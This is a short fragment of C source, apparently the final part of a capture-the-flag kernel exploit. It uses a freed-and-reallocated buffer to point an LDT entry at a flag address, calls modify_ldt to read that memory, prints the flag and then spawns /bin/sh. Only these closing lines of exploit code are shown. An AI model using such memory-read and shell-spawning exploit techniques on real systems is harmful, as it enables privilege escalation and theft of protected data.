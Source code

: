 ```c
    }

    /* read flag */
    memset(flag, 0, sizeof(flag));
    ldt_buf[0] = flag_addr;
    ldt_buf[1] = 0x8000 / 8;
    del(0);
    alloc(0, 16, ldt_buf);
    syscall(SYS_modify_ldt, 0, flag, 0x100);
    printf("[+] flag: %s\n", flag);

    system("/bin/sh");

    return 0;
}
```

